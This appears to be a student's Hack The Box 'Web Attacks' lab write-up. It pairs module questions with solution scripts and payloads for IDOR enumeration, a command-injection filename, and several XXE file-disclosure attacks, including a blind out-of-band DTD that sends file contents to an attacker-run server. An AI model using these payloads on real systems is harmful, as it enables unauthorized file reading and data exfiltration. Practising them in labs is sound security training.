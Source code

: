 # [HTB] Web Attacks

## Bypassing Basic Authentication

>**Q. Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.**

## Bypassing Security Filters
 
>**Q. To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./**

## Mass IDOR Enumeration

>**Q. Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.**
```sh
sudo nano documents.sh
sudo chmod +x documents.sh
```
```sh
#!/bin/bash


for i in {0..50}; do
        for link in $(curl -X POST http://83.136.250.34:49965/documents.php -d >
                wget -q http://83.136.250.34:49965/$link
        done
done
```
```sh
./documents.sh

```

## Bypassing Encoded References

>**Q. Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly.**
```sh
sudo nano encode.sh
sudo chmod +x encode.sh
```
```sh
#!/bin/bash


for i in {1..20}; do
    for hash in $( (echo -n $i | base64 -w 0) |jq -sRr @uri); do
        curl -s "http://83.136.250.34:36131/download.php?contract=$hash"
    done
done
```


## IDOR in Insecure APIs

>**Q. Try to read the details of the user with 'uid=5'. What is their 'uuid' value?**

## Chaining IDOR Vulnerabilities

>**Q. Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.**

## Local File Disclosure

>**Q. Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer.**
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
```
## Advanced Exfiltration with CDATA
```Code: xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
## Advanced File Disclosure

>**Q. Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').**

```bash
sudo nano xxe.dtd
```

```dtd
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```bash
python3 -m http.server 8000
```

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.1:8000/xxe.dtd">
  %remote;
  %error;
]>
```

## Blind Data Exfiltration

>**Q. Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.**
```bash
sudo nano xxe2.dtd 
```

```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.15.1:8000/?content=%file;'>">
```

```bash
php -S 0.0.0.0:8000
```

## Web Attacks - Skills Assessment

>**Q. Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'.**

```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
            <root>
            <name>&xxe;</name>
            <details>test</details>
            <date>2023-07-18</date>
            </root>
```
```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>
            <root>
            <name>&xxe;</name>
            <details>test</details>
            <date>2023-07-18</date>
            </root>
```
